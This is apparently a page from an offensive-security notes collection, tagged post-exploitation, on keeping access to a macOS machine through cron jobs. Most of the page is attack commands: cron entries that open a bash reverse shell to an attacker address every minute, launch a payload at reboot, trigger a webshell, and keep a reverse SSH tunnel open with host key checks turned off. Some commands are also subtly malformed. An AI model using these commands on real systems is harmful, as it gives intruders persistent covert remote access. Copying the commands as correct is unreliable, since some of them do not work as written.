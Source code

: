```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - maintaining-access
  - persistence
  - living-off-the-land
  - osx
---
```

# Cron Jobs
## 01 - Usage

> [!IMPORTANT] Conditions
> Cron job service must be enabled.

Open an editor via crontab.

```
$ sudo crontab -e
```

This will execute every minute to trigger the backdoor.

```
$ sudo echo "* * * * * <commands>" >> /etc/crontab

$ sudo echo "$(echo '* * * * * <commands>')" | crontab -

$ echo "* * * * * <commands>" | crontab -

$ echo "$(echo '* * * * * <commands>')" | crontab -

$ crontab -l
```

## 02 - Callback Payloads

Reverse Shell Backdoor

```
$ sudo echo "* * * * * /bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1" >> /etc/crontab

$ sudo echo "@reboot nohup /home/<username>/.directory/payload" >> /etc/crontab
```

Webshell backdoor

```
$ sudo echo "* * * * * php -f /var/www/html/logout.php" >> /etc/crontab
```

## 03 - Reverse SSH Tunnel

Refer to this [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x08 - Maintaining Access/Persistence/Linux/Remote Login/SSH/Manual/Living off the Land|section]] for more context.

```
$ sudo "* * * * * nohup ssh -i /tmp/keys/id_rsa -NTfCqR [127.0.0.1]:<SOCKS_Proxy> -o \"UserKnownHostsFile=/dev/null StrictHostKeyChecking=no\" <username>@<attacker_IP>" >> /etc/crontab
```

---
## References

### Backlinks

- [[03 - Malware Development/Global Helpers/Persistence/OSX/Autostart Locations]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x08 - Maintaining Access/Persistence/Linux/Backdoors/Cron Jobs/Living off the Land]]